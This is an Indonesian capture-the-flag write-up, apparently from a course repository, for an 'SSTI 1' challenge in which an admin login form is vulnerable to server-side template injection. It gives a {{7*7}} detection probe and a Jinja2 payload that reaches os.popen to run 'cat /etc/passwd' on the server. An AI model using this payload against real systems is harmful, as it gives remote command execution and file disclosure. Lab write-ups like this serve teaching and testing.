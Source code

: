 # SSTI 1

## Deskripsi Soal

Pada challenge ini, diberikan sebuah aplikasi login admin yang rentan terhadap **Server-Side Template Injection (SSTI)**.

[SSTI1](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.png)

## Identifikasi Kerentanan

Aplikasi menggunakan template engine yang tidak melakukan sanitasi input dengan baik, sehingga memungkinkan terjadinya SSTI.

## Langkah Penyelesaian

1. Buka aplikasi dan temukan form login.
   
3. Coba input payload SSTI sederhana, misal: `{{7*7}}` pada field username atau password.

[Login](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.1.png)

5. Jika output pada halaman berubah menjadi `49`, maka aplikasi rentan SSTI.

[Output](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.2.png)


5. Lanjutkan eksploitasi dengan payload lain, misal untuk membaca file:
   ```
   {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
   ```
6. Jika berhasil, Anda dapat membaca file sensitif pada server.
   
[Flag](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.3.png)

## Payload yang Digunakan

- `{{7*7}}`
- `{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

- [OWASP SSTI](https://owasp.org/www-community/vulnerabilities/Server-Side_Template_Injection)


